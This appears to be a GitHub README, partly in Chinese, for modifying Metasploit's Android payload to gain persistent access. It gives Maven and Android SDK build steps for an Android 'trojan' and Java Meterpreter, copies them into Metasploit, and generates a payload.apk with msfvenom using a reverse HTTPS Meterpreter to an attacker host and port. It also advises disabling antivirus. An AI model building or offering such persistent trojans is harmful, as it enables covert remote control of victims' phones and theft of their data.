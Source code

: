 https://github.com/xiaohuanshu/persistent-androidpayload
修改Metasploit安卓Payload源码以实现持久化访问

# Building the Java and Android Meterpreter
只要下载java文件，AS打开androidpayload文件夹，但是mvn命令生成jar文件是在java目录下，而不是androidpayload目录——会出错。
pom.xml有感叹号错误不必理会，mvn package命令会下载缺失Maven文件

1. 根据自身的环境安装Maven(3.5以上版本) 和 Java8

apt-get update

apt-get -y install maven

update-alternatives  --config mvn

update-alternatives  --config javac


2. 安装 [Android SDK](https://developer.android.com/sdk/index.html), 和 [Android NDK](https://developer.android.com/tools/sdk/ndk/index.html) 

3. 安装 Android SDK Platforms最新29, 10 and 19, 并更新 "Android SDK Tools" 和 "Android SDK Platform-tools"

a. AS->File->Setting->System Setting->Android SDK->SDK Platforms
下载Android SDK Platforms——API version 最新的SDK（compileSdkVersion）29+10 +19

b. AS->File->Setting->System Setting->Android SDK->SDK Tools->Show Package Details打勾, 
Android SDK Build Tools
Android SDK Platform-Tools 29.0.5
Android SDK Tools 26.1.1
NDK(Side by side)20.0.055
Cmake 3.10.2
Android SDK Build-Tools 25.0.0(AhMyth)
Android Emulator 29.2.11

4. 编译AndroidPayload for Metasploit ... SUCCESS 即成功,并把编译新生成的/java/target/data中android文件夹——复制到Metasploit-framework根目录下的data文件夹。
Android 木马：
cd metasploit-payloads/tree/master/java
mvn package -Dandroid.sdk.path=/root/Android/sdk -Dandroid.release=true -P deploy
返回成功信息：
[INFO] AndroidPayload for Metasploit ...................... SUCCESS [  8.920 s]
[INFO] Android Meterpreter ................................ FAILURE [  4.153 s]
[INFO] BUILD FAILURE

cd /java/target/data
cp -r android /usr/share/metasploit-framework/data


java木马：mvn -D deploy.path=/usr/share/metasploit-framework -P deploy package

5.通过msfvenom命令生成APK:
msfvenom -p android/meterpreter_reverse_https  LHOST=10.10.10.102 LPORT=4444 -o payload.apk
返回信息：如果开头出现了这三个WARNING，说明msfvenom生成APK时使用的是我们修改后的版本。 
WARNING: Local file /usr/share/metasploit-framework/data/android/apk is being used
WARNING: Local files may be incompatible with the Metasploit Framework
WARNING: Local file /usr/share/metasploit-framework/data/android/apk/classes.dex is being used


## Building on OSX
```
brew cask install caskroom/versions/java8
brew cask install android-sdk
brew install maven
sdkmanager --licenses
sdkmanager "platforms;android-10"
sdkmanager "platforms;android-19"

#cd metasploit-payloads/java
mvn package -Dandroid.sdk.path=/usr/local/share/android-sdk -Dandroid.release=true -P deploy
```

## Compiling JavaPayload and Java Meterpreter manually

To compile JavaPayload (a Java stager / code loader) and Java Meterpreter for
Metasploit, you need Maven 3.1 or above (Maven 3.5 works at the time of this
writing), and a copy of JDK 8.0 or later. Ensure that `mvn` and `javac` are in
your path and work. Then run

```
mvn package
```

to package all the files needed for Java meterpreter. The two files that you will be generated are:

```
meterpreter/meterpreter/target/meterpreter.jar
meterpreter/stdapi/target/ext_server_stdapi.jar
```

To get Metasploit to use these files, you need to place them in a place where
it can find them. To automatically build and install these files into
Metasploit Framework for testing, run:

```
mvn -P deploy package
```

This will package all the files and copy them into the correct place for
Metasploit, assuming that the metasploit-framework repository is checked out in
an adjacent directory to this one. (`../../metasploit-framework/data/java`). If
you get spurious compilation errors, make sure that there is an exclude rule in
your antivirus for the Metasploit directory (or that your antivirus is
disabled).

If the path to your metasploit framework repository is not
`../../metasploit-framework`, but for example (with Kali Linux)

`/usr/share/metasploit-framework/`, set the deploy.path directive like so:

```
mvn -D deploy.path=/usr/share/metasploit-framework -P deploy package
```

When you are editing this or any other Meterpreter, you will want to make sure
that your copy of metasploit-framework is also up-to-date. We occasionally
update the network protocol between Metasploit and its Payloads, and if the two
do not match, things will probably not work. Metasploit will warn you the first
time it stages a development payload that it is doing so, and that the payload
and Metasploit framework may be incompatible.

Each time you make a change to your code, you must build and deploy the files
into metasploit-framework for it to see the updates. It is not necessary to
restart msfconsole when updating payloads however, as they are read from disk
each time. So, a reasonable strategy when debugging is to leave msfconsole
running with `exploit/multi/handler`, and just install and restage payloads as
needed.

When you are done editing and want to revert Metasploit to use the builtin
payloads, simply delete `data/meterpreter/*.jar` and `data/meterpreter/java`
from your Metasploit framework directory. It will then fall back to the
versions bundled with the metasploit-payloads Ruby gem.

# IDE Support

In case you want to edit/debug JavaPayload for Metasploit or Java Meterpreter
with an IDE, Maven provides plugins to auto-generate project files for your
favourite environment (at least for Eclipse, Netbeans or IntelliJ).

I use Eclipse, so to generate project files I use

```
mvn eclipse:eclipse
```

This will generate project files that can be imported via

**File->Import->Existing Projects into Workspace**

into your Eclipse workspace.

(Note that if this is your first Maven project you want to use in Eclipse, you
also have to run

```
mvn -Declipse.workspace=/path/to/your/workspace eclipse:configure-workspace
```

to set up path variables like `M2_REPO` to point to the correct location.)

For NetBeans or IntelliJ IDEA, refer to the documentation at

http://maven.apache.org/netbeans-module.html
http://maven.apache.org/plugins/maven-idea-plugin/



